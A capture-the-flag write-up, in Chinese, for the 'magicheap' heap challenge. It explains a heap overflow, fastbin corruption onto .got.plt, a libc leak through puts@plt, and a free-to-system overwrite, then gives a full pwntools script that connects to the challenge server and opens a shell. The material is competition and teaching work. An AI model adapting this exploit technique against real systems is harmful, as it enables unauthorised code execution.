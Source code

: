 ## magicheap(250)
Credits to my teammates.

### solution
#### heap overflow
跟作業一樣，`edit()`會有任意大小overflow

#### fastbin corruption
把fastbin的下一個改成`.got.plt`的一個適合的位置，下次`malloc`時，會得到此位置，修改`free.got`

#### information leak
由於此題沒show，先將一個large chunk free掉，再`malloc()`它將其填入`8*'A'`，再將`free.got`改成`puts@plt`，就可以`puts`出main arena位置，進而算出libc

#### get shell
將`free.got`改成`system`即可get shell

### script
```pyhton
from pwn import *

#r = process("./magicheap",env={"LD_PRELOAD":"./ais3.so.6"})
r = remote('35.201.132.60',50216)

def cre(size,cont):
	r.sendlineafter('ice :','1')
	r.sendlineafter(': ',str(size))
	r.sendafter(':',cont)

def edit(idx,size,cont):
	r.sendlineafter('ice :','2')
	r.sendlineafter(':',str(idx))
	r.sendlineafter(': ',str(size))
	r.sendafter(': ',cont)

def free(idx):
	r.sendlineafter('ice :','3')
	r.sendlineafter(':',str(idx))

r.recvuntil(":")
r.send('a')

cre(0x1000,'a') #0
cre(0x100,'a')#1
free(0)
cre(0x1000,'a'*8)#0
tar = 0x601ffa
cre(0x50,'a')#2
puts_plt = 0x4006b0
free(2)
edit(1,0x200,'a'*0x100+p64(0)+p64(0x61)+p64(tar))
cre(0x50,'sh\x00')#2
cre(0x50,'aaaaaa'+'a'*8+p64(puts_plt))#3
free(0)
r.recvuntil('a'*8)
l = u64(r.recvuntil('\n')[:-1].ljust(8,'\x00'))
libc = l - 0x3c4b78
print hex(libc)
system = libc + 0x45390
edit(3,0x100,'a'*14+p64(system))
free(2)
r.interactive()
```
